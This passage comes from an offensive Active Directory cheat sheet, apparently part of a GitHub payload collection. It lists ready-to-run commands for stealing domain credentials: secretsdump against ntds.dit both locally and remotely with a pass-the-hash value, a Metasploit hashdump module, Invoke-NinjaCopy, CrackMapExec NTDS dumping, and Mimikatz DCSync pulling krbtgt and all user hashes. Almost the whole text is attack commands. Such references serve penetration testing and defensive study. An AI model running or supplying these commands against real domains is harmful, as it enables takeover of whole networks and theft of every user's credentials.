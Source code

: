 then you need to use [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to extract the hashes, use the `LOCAL` options to use it on a retrieved ntds.dit

```java
secretsdump.py -system /root/SYSTEM -ntds /root/ntds.dit LOCAL
```

[secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) also works remotely

```java
./secretsdump.py -dc-ip IP AD\administrator@domain -use-vss -pwd-last-set -user-status 
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

* `-pwd-last-set`: Shows pwdLastSet attribute for each NTDS.DIT account.
* `-user-status`: Display whether or not the user is disabled.

#### Alternatives - modules

Metasploit modules

```c
windows/gather/credentials/domain_hashdump
```

PowerSploit module

```powershell
Invoke-NinjaCopy --path c:\windows\NTDS\ntds.dit --verbose --localdestination c:\ntds.dit
```

CrackMapExec module

```powershell
cme smb 10.10.0.202 -u username -p password --ntds vss
cme smb 10.10.0.202 -u username -p password --ntds drsuapi #default
```

#### Using Mimikatz DCSync

Any member of Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts are able to run DCSync to pull password data. 

```powershell
# DCSync only one user
mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt

# DCSync all users of the domain
mimikatz# lsadump::dcsync /domain:htb.local /all /csv
```

:warning: Read-Only Domain Controllers are not allowed to pull password data for users by default.

#### Using Mimikatz sekurlsa

Dumps credential data in an Active Directory domain when run on a Domain Controller.
:warning: Requires administrator access with debug or Local SYSTEM rights
